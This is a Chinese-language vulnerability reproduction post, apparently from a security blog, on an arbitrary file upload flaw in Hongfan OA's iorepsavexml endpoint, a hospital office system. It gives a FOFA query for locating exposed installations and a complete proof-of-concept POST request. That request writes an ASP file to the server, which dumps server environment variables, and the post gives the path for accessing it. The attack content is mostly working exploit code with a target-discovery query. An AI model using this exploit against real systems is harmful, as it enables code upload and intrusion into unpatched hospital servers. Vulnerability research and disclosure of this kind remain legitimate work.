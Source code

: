 #  【漏洞复现】红帆OA iorepsavexml 任意文件上传漏洞   
原创 ZJyang  蚁剑安全实验室   2023-12-19 22:47  
  
**免责声明：该文章仅用于技术讨论与学习。请勿利用文章所提供的相关技术从事非法测试，若利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果均与文章作者及本账号无关。**  
  
**漏洞名称**  
  
红帆  
OA iorepsavexml 任意文件上传漏洞  
  
**漏洞详情**  
  
红帆  
oa系统为医院提供  
oA功能  
,完成信息发布、流程审批、公文管理、日程管理、工作安排、文件传递、在线沟通等行政办公业务。红帆  
OA iorepsavexml 接口存在任意文件上传漏洞，成功利用此漏洞可上传恶意文件至服务器。  
  
**影响产品**  
  
红帆  
OA  
  
**漏洞复现**  
  
fofa  
：  
app="红帆  
-ioffice"  
  
1.  
系统登录页面：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTQ5elL8WmyVNdBe97a9OcRZxp7t4h2xmlwTk1JaUYrBbHaZeYIpib6FwXeRj6l5u4k2ibmcs7vgVX3A/640?wx_fmt=png&from=appmsg "")  
  
2.  
漏洞路径  
  
Poc:****  
```
POST /iOffice/prg/set/report/iorepsavexml.aspx?key=writefile&filename=zzz.asp&filepath=/upfiles/rep/pic/ HTTP/1.1
Host: 
Upgrade-Insecure-Requests:
1
User-Agent: Mozilla/5.0
(Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0
Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language:zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
<%
Response.Write("<h1>服务器环境配置信息</h1>")
Response.Write("<h2>操作系统：</h2>")
Response.Write(Server.HTMLEncode(Request.ServerVariables("OS")))
Response.Write("<h2>ASP版本：</h2>")
Response.Write(Server.HTMLEncode(Request.ServerVariables("SERVER_SOFTWARE")))
Response.Write("<h2>.NET版本：</h2>")
Response.Write(Server.HTMLEncode(Request.ServerVariables("ASPNET_VERSION")))
Response.Write("<h2>当前时间：</h2>")
Response.Write(Server.HTMLEncode(Now()))
Response.Write("<h2>其他环境变量：</h2>")
For Each var In
Request.ServerVariables
  
Response.Write("<p>" & Server.HTMLEncode(var)
& ": " & Server.HTMLEncode(Request.ServerVariables(var))
& "</p>")
Next
%>
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTQ5elL8WmyVNdBe97a9OcRZqs8jbMQRoXWOlSvquT2AMS77hAx3ftcvT2H1AoBkny9ILeQwj7JeOA/640?wx_fmt=png&from=appmsg "")  
  
3  
、访问上传文件，路径  
/iOffice/upfiles/rep/pic/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OIzfYbpicRTQ5elL8WmyVNdBe97a9OcRZYiakkyAt6zicGIpuvmp8kMChKxgD9guzIS61aYbRR3602icmYK2cib5iciaA/640?wx_fmt=png&from=appmsg "")  
  
**修复建议**  
  
**补丁文件**  
  
暂无  
  
**其他修复方法**  
  
更新当前系统至最新版****  
  
**缓解方案**  
  
无  
  
